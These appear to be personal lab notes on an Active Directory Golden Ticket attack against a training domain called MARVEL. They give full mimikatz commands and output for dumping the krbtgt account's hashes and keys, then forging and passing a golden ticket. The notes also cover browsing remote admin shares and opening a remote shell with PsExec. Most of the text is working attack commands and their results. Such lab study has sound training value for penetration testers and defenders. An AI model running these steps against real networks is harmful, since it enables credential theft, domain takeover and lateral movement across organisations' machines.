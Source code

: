 #SID #krbtgt #mimikatz #psexec  

Once we have the SID and krbtgt hash, we can generate a ticket  
# What is it?

- When we compromise the krbtgt account, we own the domain
- We can request access to any resource or system on the domain  
- Golden tickets == complete access to every machine

We can utilize Mimikatz toobtain the information necessary to perform this attack

`mimikatz.exe`​
`privilege::debug`​
`lsadump::lsa /inject /name:krbtgt`​

- dumps the information for the krbtgt account
- need:
	- krbtgt ntlm hash
	- domain SID  

Results:
```
C:\Users\Administrator\Downloads>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::lsa /inject /name:krbtgt
Domain : MARVEL / S-1-5-21-3809429150-595446586-675097592

RID  : 000001f6 (502)
User : krbtgt

 * Primary
    NTLM : 60163dd27f6c523edea3d171b2687db4
    LM   :
  Hash NTLM: 60163dd27f6c523edea3d171b2687db4
    ntlm- 0: 60163dd27f6c523edea3d171b2687db4
    lm  - 0: d315786f2f638a2e2c982770db7ea983

 * WDigest
    01  6b3668ccfc3c1d765603cf763cacb54a
    02  4cf7548763b61e728a8623a1f56d9b9b
    03  f22deb1da72e103d65ca15d76d3d8a90
    04  6b3668ccfc3c1d765603cf763cacb54a
    05  4cf7548763b61e728a8623a1f56d9b9b
    06  a2c6cc4a2a336f39994c316c27888da9
    07  6b3668ccfc3c1d765603cf763cacb54a
    08  82dd34d799a60d5c23e77d9495bef622
    09  b74cebf217f1497daab39baeed14377f
    10  070b118912dcdea684c702df2aba5c4c
    11  0e8c8a46947a5e40b772dbfb27efbff8
    12  b74cebf217f1497daab39baeed14377f
    13  917191fb7394c19fd6f353cd2cc59415
    14  0e8c8a46947a5e40b772dbfb27efbff8
    15  822ba92fff48689533633f002553f9df
    16  7e0b4051e149308d32be5b37391ac0c0
    17  707f1b31554829ace41fc22a641ee103
    18  f1c8438ccc91ba9c5b680e4e6d31a93a
    19  c10c26ebfc309987e143016e8c385dfd
    20  aaddf72b4a0a329bc236b9999f020b55
    21  2b55aad6f97b08c414e3b9f87c912f95
    22  2b55aad6f97b08c414e3b9f87c912f95
    23  bae97097016b2d97a995aa8372eddb3a
    24  8df01a1c50c1975ac9af45f0a6e05d4f
    25  0904c15efad7b5815e91dfb4712610fa
    26  b5f40647fb597b91cd5562a90e219f24
    27  cd59636c9b469005a368fa2eab515c69
    28  6d75014e3c903a77eb7553596b07e4c7
    29  c395aac429e46c78175d4820ab962143

 * Kerberos
    Default Salt : MARVEL.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 4546cb2f1c13c754

 * Kerberos-Newer-Keys
    Default Salt : MARVEL.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 981ff0f170cdae1af3126454e6be4992a97ab314de13310f0328a09067aac089
      aes128_hmac       (4096) : cb381cd42cd961408bce258de2880686
      des_cbc_md5       (4096) : 4546cb2f1c13c754

 * NTLM-Strong-NTOWF
    Random Value : 50e5c535ed079c714856f6f480984d70
```


Once we have the SID and krbtgt hash, we can generate a ticket (in mimikatz)  

`kerberos::golden /User:Administrator /domain:marvel.local /sid:S-1-5-21-3809429150-595446586-675097592 /krbtgt:60163dd27f6c523edea3d171b2687db4 /id:500 /ptt`​

- /User can be a fake user, /domain must be real  

Result:
```
mimikatz # kerberos::golden /User:Administrator /domain:marvel.local /sid:S-1-5-21-3809429150-595446586-675097592 /krbtgt:60163dd27f6c523edea3d171b2687db4 /id:500 /ptt
User      : Administrator
Domain    : marvel.local (MARVEL)
SID       : S-1-5-21-3809429150-595446586-675097592
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 60163dd27f6c523edea3d171b2687db4 - rc4_hmac_nt
Lifetime  : 7/6/2024 10:12:07 AM ; 7/4/2034 10:12:07 AM ; 7/4/2034 10:12:07 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ marvel.local' successfully submitted for current session
```


`misc::cmd`​

With a Golden Ticket, we can now access other machines from the cmd line

`dir \\10.0.0.25\C$   `
`dir \\THEPUNISHER\c$`

Results:
```
C:\Users\Administrator\Downloads>whoami
marvel\administrator

C:\Users\Administrator\Downloads>dir \\THEPUNISHER\c$
 Volume in drive \\THEPUNISHER\c$ has no label.
 Volume Serial Number is C810-5545

 Directory of \\THEPUNISHER\c$

07/03/2024  11:52 AM             1,191 @test.lnk
12/07/2019  02:14 AM    <DIR>          PerfLogs
06/28/2024  04:15 PM    <DIR>          Program Files
09/07/2022  08:16 PM    <DIR>          Program Files (x86)
06/26/2024  11:01 AM    <DIR>          Users
07/03/2024  12:10 PM    <DIR>          Windows
               1 File(s)          1,191 bytes
               5 Dir(s)  32,323,223,552 bytes free

C:\Users\Administrator\Downloads>dir \\SPIDERMAN\c$
 Volume in drive \\SPIDERMAN\c$ has no label.
 Volume Serial Number is 0815-C3C4

 Directory of \\SPIDERMAN\c$

12/07/2019  02:14 AM    <DIR>          PerfLogs
06/28/2024  04:10 PM    <DIR>          Program Files
09/07/2022  08:16 PM    <DIR>          Program Files (x86)
06/26/2024  10:35 AM    <DIR>          Users
06/29/2024  08:50 AM    <DIR>          Windows
               0 File(s)              0 bytes
               5 Dir(s)  39,861,657,600 bytes free
```
​​​
`Exec64.exe \\10.0.0.25 cmd.exe`​
`psexec.exe \\THEPUNISHER cmd.exe`
- (psexec.exe is a Windows tool.run it in the Golden Ticket session against another domain user/account to get a shell)
`whoami`​
`hostname`​

Results:
```
C:\Users\Administrator\Downloads>PsExec.exe \\THEPUNISHER cmd.exe

PsExec v2.43 - Execute processes remotely
Copyright (C) 2001-2023 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.19045.2006]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
marvel\administrator

C:\Windows\system32>hostname
THEPUNISHER
```


Golden Ticket is persistence. Silver Ticket is stealthier than Golden Ticket.  

